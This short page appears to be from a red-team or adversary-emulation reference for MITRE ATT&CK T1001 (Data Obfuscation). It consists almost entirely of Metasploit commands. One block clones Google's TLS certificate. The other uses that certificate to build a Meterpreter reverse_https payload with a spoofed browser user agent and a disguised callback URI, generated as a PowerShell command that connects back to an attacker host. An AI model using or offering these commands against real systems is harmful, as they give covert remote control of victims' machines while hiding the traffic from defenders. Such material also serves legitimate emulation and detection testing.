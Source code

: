 
# Data Obfuscation

MITRE ATT&CK Technique: [T1001](https://attack.mitre.org/wiki/Technique/T1001)



## Metasploit - Mimic Google Certificate

    use auxiliary/gather/impersonate_ssl
    set rhost www.google.com
    run

## Metasploit - Create Payload w/ Certificates

    Use payload/windows/meterpreter/reverse_https
    set stagerverifysslcert true
    set HANDLERSSLCERT /root/.msf4/loot/2017011813_609599.pem
    set LHOST 172.16.0.100
    set LPORT 443
    set MeterpreterUserAgent Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)
    set LURI Secure/8984398439845AC33/Services/Status
    generate -t psh-cmd
